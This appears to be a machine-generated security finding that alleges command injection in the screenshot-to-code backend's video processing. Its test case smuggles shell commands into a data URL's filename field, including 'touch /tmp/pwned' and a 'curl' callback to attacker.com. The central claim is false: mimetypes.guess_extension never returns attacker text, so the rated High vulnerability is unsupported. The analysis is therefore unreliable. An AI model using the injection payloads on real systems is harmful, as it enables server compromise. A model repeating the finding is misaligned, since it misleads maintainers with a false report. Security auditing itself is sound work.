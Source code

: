 - Vulnerability Name: Potential Command Injection via Malicious Filename in Video Processing

- Description:
    1. An attacker uploads a video file to the application.
    2. The backend extracts the MIME type from the uploaded video's data URL.
    3. The `mimetypes.guess_extension(mime_type)` function attempts to determine the file extension based on the provided MIME type.
    4. If the MIME type is maliciously crafted to include shell commands, `mimetypes.guess_extension` might return a file extension that, when used in `tempfile.NamedTemporaryFile(suffix=suffix, delete=True)`, could lead to command injection during video processing by `moviepy.editor.VideoFileClip`.
    5. When `VideoFileClip` processes the temporary file, the injected commands within the filename could be executed by the system.

- Impact:
    - High
    - Successful command injection can allow an attacker to execute arbitrary commands on the server, potentially leading to:
        - Unauthorized access to sensitive data.
        - Modification or deletion of files.
        - Full compromise of the server.
        - Further attacks on internal infrastructure.

- Vulnerability Rank: High

- Currently Implemented Mitigations:
    - None. The code directly uses the guessed extension from the MIME type without sanitization.

- Missing Mitigations:
    - **Input Sanitization:** Sanitize the MIME type to ensure it does not contain any characters that could be interpreted as shell commands or path separators before using `mimetypes.guess_extension`.
    - **Filename Sanitization:** Sanitize the filename generated by `tempfile.NamedTemporaryFile` before passing it to `VideoFileClip` to ensure it does not contain any shell-sensitive characters, although `tempfile.NamedTemporaryFile` is designed to prevent predictable filenames and is generally safe in how it generates names. The main risk is from the `suffix`.
    - **MIME Type Validation:** Validate the MIME type against an expected list of video MIME types to prevent unexpected or malicious MIME types from being processed.

- Preconditions:
    - The attacker needs to be able to upload a video file to the application.
    - The backend must process video files using the vulnerable `split_video_into_screenshots` function.

- Source Code Analysis:
    ```python
    File: ..\screenshot-to-code\backend\video\utils.py

    48: def split_video_into_screenshots(video_data_url: str) -> list[Image.Image]:
    ...
    56:     mime_type = video_data_url.split(";")[0].split(":")[1]
    57:     suffix = mimetypes.guess_extension(mime_type)
    ...
    60:     with tempfile.NamedTemporaryFile(suffix=suffix, delete=True) as temp_video_file:
    61:         print(temp_video_file.name)
    62:         temp_video_file.write(video_bytes)
    63:         temp_video_file.flush()
    64:         clip = VideoFileClip(temp_video_file.name) # Potential command injection here

    ```
    - Line 56: The code extracts the MIME type from the `video_data_url` by splitting the string. This is where a malicious MIME type can be introduced by the attacker.
    - Line 57: `mimetypes.guess_extension(mime_type)` attempts to guess the file extension. If `mime_type` is crafted like `image/png; name="exploit.mp4; touch /tmp/pwned #"`, `guess_extension` might return `.mp4; touch /tmp/pwned #`.
    - Line 60: `tempfile.NamedTemporaryFile(suffix=suffix, delete=True)` creates a temporary file with the potentially malicious suffix.
    - Line 64: `VideoFileClip(temp_video_file.name)` uses the temporary file's name, including the malicious suffix, as an argument. If `VideoFileClip` or underlying libraries use this filename in a way that is vulnerable to command injection (e.g., passing it to a shell command), the injected commands in the suffix could be executed.
    - **Visualization:**
        ```
        Attacker-Controlled video_data_url --> MIME Type Extraction --> mimetypes.guess_extension() --> Malicious Suffix --> tempfile.NamedTemporaryFile(suffix=Malicious Suffix) --> temp_video_file.name (Malicious Filename) --> VideoFileClip(Malicious Filename) --> Potential Command Injection
        ```

- Security Test Case:
    1. **Prepare a Malicious Video Data URL:** Construct a video data URL with a crafted MIME type that includes a command injection payload in the filename. For example:
       ```
       video_data_url = "data:video/mp4;name='test.mp4; touch /tmp/pwned #';base64,<base64 encoded video data>"
       ```
       Replace `<base64 encoded video data>` with valid base64 encoded video data (a small, benign video file encoded to base64).
    2. **Upload the Malicious Video:** Use the frontend of the application to upload the video using this crafted data URL. This can be done by intercepting the network request and modifying the video data URL before sending it to the backend or by crafting a malicious frontend request.
    3. **Trigger Video Processing:** Initiate the video-to-code conversion process in the application. This will cause the backend to process the uploaded video.
    4. **Check for Command Execution:** After triggering the video processing, check if the injected command `touch /tmp/pwned` was executed on the server. You can check this by:
        - Trying to access `/tmp/pwned` if the application allows file listing or access.
        - Checking server logs for any signs of command execution or errors related to `/tmp/pwned`.
        - Using out-of-band techniques like DNS or HTTP callbacks in the injected command (e.g., `video_data_url = "data:video/mp4;name='test.mp4; curl http://attacker.com/pwned #';base64,<base64 encoded video data>"`) and monitoring for connections on `attacker.com`.
    5. **Expected Result:** If the vulnerability exists, the command `touch /tmp/pwned` (or the injected command) should be executed on the server. The file `/tmp/pwned` should be created, or you should receive a callback to `attacker.com` if you used the curl example. This confirms command injection. If the file is not created and no callback is received, the vulnerability might not be exploitable in this specific way, or mitigations might be in place that are not apparent from the code review.

